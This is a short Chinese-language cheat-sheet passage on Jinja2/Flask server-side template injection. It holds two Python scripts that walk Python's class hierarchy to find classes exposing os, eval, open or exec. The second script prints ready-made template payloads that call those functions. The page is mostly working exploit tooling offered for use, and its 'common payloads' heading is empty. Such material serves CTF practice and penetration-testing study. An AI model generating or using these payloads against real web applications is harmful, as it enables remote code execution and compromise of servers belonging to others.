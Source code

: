### 模块查找脚本

> 



```
num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():
    try:
        if 'os' in item.__init__.__globals__:
            print num,item
        num+=1
    except:
        num+=1

```

> 



```
#!/usr/bin/python3
# coding=utf-8
# python 3.5
#jinja2模板
from flask import Flask
from jinja2 import Template
# Some of special names
searchList = ['__init__', "__new__", '__del__', '__repr__', '__str__', '__bytes__', '__format__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__hash__', '__bool__', '__getattr__', '__getattribute__', '__setattr__', '__dir__', '__delattr__', '__get__', '__set__', '__delete__', '__call__', "__instancecheck__", '__subclasscheck__', '__len__', '__length_hint__', '__missing__','__getitem__', '__setitem__', '__iter__','__delitem__', '__reversed__', '__contains__', '__add__', '__sub__','__mul__']
neededFunction = ['eval', 'open', 'exec']
pay = int(input("Payload?[1|0]"))
for index, i in enumerate({}.__class__.__base__.__subclasses__()):
    for attr in searchList:
        if hasattr(i, attr):
            if eval('str(i.'+attr+')[1:9]') == 'function':
                for goal in neededFunction:
                    if (eval('"'+goal+'" in i.'+attr+'.__globals__["__builtins__"].keys()')):
                        if pay != 1:
                            print(i.__name__,":", attr, goal)
                        else:
                            print("{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='" + i.__name__ + "' %}{{ c." + attr + ".__globals__['__builtins__']." + goal + "(\"[evil]\") }}{% endif %}{% endfor %}")

```

### 常见Payload
